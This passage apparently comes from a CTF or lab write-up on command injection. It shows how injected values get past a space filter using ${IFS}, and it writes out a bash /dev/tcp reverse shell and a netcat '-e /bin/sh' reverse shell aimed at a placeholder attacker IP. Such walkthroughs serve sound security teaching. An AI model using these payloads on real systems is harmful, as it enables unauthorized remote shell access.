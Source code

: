 We get:

```
<pre>cannot access &#39;file.sh;bash-i&gt;&amp;/dev/tcp/IP/44440&gt;&amp;1&#39;: No such file or directory</pre>
```

Which means that `+` may not be properly accepted, it seems like the spaces are filtered:

```
file.sh;+ 

<pre>cannot access &#39;file.sh;&#39;: No such file or directory</pre>
```

Indeed, spaces are being filtered, we can use`${IFS}`, `${IFS}` stands for Internal Field Separator, a special environment variable in Unix-like shells that defines what characters are used to split fields, many filters look for literal spaces but tend to miss environment variables like this one, let's try to check if it works first:

<figure><img src="../../../.gitbook/assets/image (15).png" alt=""><figcaption></figcaption></figure>

It works, no error message appears, we can restructure our shell command now, after testing `bash` is also filtered too, we need another reverse shell, let's try netcat one:

```bash
nc${IFS}IP${IFS}4444${IFS}-e${IFS}/bin/sh
```

<figure><img src="../../../.gitbook/assets/image (16).png" alt=""><figcaption></figcaption></figure>
